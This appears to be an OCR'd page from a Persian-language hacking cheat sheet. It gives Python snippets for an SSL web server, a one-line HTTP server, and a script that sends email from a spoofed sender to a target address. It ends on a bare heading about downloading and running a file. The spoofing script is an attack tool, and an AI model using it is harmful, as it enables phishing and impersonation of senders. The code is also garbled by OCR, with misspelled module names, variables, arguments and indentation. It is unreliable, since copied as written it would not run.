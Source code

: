### ساخت وبسرور رمز شده با ssl در پایتون

```text
# Create SSL cert (follow prompts for customization)
  openssl req -new -x509 -keyout cert.pem -out cert.pern -days 365 -nodes

#Create httpserver.pj
  import BaseHTTPServer,SimpleHTTPServer,ssl

cert ="cert.pem"
httpd = BaseHTTPServer.HTTPServer( ('192.168.1.10' ,443),
Simp1eHTTPServer.SimpleHTTPRequestHandler)
httpd.socket = ssl.wrap socket(httpd.socket,certflle=cert,server side=True)
httpd.serve_forever()
```

### وبسرور با پایتون

```text
python -m SimpleHTTPServer 8080
```

### ارسال ایمیل در python \(\* باید sendmail نصب باشد\)

```text
#!/usr/bin/python
import smtplib, string
import os, time

os.system("/etc/init.d/sendmail start")
time.sleep(4)

    HOST = "localhost"
    SUBJECT = "Email from spoofed sender"
    TO = "target@you.com"
    FROM= "spoof@spoof.com"
    TEXT = "Message Body"
    BODY = string.join( (
            "From: %s" % FROH,
            "To: %s" % TO,
            "Subject: %s" % SUBJECT ,
            "",
            TEXT
            ) , "\r\n")
server = smtplib.SMTP(HOST)
server.sendmail(FROM, [TO], BODY)
server. quit ()
time.sleep(4)
os.system("/etc/init.d/sendmail stop")
```

### دریافت فایل از http و اجرای آن
